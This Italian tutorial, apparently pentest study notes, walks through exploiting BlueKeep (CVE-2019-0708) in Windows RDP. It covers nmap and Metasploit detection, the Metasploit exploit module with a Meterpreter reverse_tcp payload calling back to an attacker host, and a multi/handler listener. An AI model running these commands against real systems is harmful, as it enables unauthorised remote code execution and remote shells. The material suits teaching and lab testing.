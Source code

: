 # Microsoft Windows – Exploitation di CVE-2019-0708 (BlueKeep)

**BlueKeep** è una vulnerabilità critica identificata con il codice **CVE-2019-0708**, che interessa il servizio **Remote Desktop Services (RDP)** di Windows. Scoperta nel 2019, questa falla consente l’esecuzione di codice da remoto (**RCE**) senza autenticazione, sfruttando un buffer overflow nel componente RDP.

È una delle vulnerabilità più pericolose mai scoperte in ambiente Windows perché:
- È **wormable**, cioè può propagarsi automaticamente da un host all’altro (simile a WannaCry).
- Non richiede interazione da parte dell’utente.
- Colpisce versioni Windows non più supportate come **XP**, **Server 2003**, ma anche versioni più recenti come **Windows 7** e **Server 2008**.

---

## 1 – Rilevazione della vulnerabilità

Prima di tentare l'exploiting dobbiamo verificare se il servizio RDP è attivo: <br>
`nmap -p 3389 <IP>` ⟶ verifica se la porta RDP è aperta. <br>

successivamente possiamo controllare se il target è vulnerabile a BlueKeep: <br>
`nmap -p 3389 --script rdp-vuln-ms12-020 <IP>` ⟶ anche se pensato per MS12-020, può indicare comportamenti anomali. <br>
Per una rilevazione più accurata: <br>
`nmap -p 3389 --script rdp-vuln-cve2019-0708 <IP>` ⟶ verifica specificamente BlueKeep. <br>

Oppure con Metasploit: <br>
`use auxiliary/scanner/rdp/cve_2019_0708_bluekeep` ⟶ modulo di scanning specifico. <br>
`set RHOSTS <IP>` ⟶ imposta il target. <br>
`run` ⟶ avvia la scansione. <br>

dopo aver selezionato l’exploit è necessario configurare il tipo di  target: <br>
`show targets` ⟶ per visualizzare i possibili target in base al sistema 
`set target` ⟶ per selezionare uno tra i target elencati

---

## 2 – Sfruttamento con Metasploit

Metasploit fornisce un modulo per l’exploit, ma l’utilizzo richiede attenzione perché potrebbe mandare in crash il sistema target. <br>
`use exploit/windows/rdp/cve_2019_0708_bluekeep_rce` ⟶ modulo di exploit RDP BlueKeep. <br>
`set RHOSTS <IP>` ⟶ indirizzo della macchina vulnerabile. <br>
`set RPORT 3389` ⟶ porta RDP. <br>
`set payload windows/x64/meterpreter/reverse_tcp` ⟶ payload Meterpreter. <br>
`set LHOST <KaliIP>` ⟶ IP della macchina di attacco. <br>
`set LPORT <Port>` ⟶ porta locale per la reverse shell. <br>
`run` ⟶ avvia l’exploit. <br>

Attenzione perché il modulo è estremamente sensibile: usare solo in ambienti di test o macchine virtuali.

---

## 3 – Listener Metasploit

In attesa del collegamento dal payload:
`use multi/handler` ⟶ modulo listener. <br>
`set payload windows/x64/meterpreter/reverse_tcp` ⟶ definisce il payload usato. <br>
`set LHOST <KaliIP>` ⟶ IP locale. <br>
`set LPORT <Port>` ⟶ porta in ascolto. <br>
`run` ⟶ avvia il listener. <br>

---
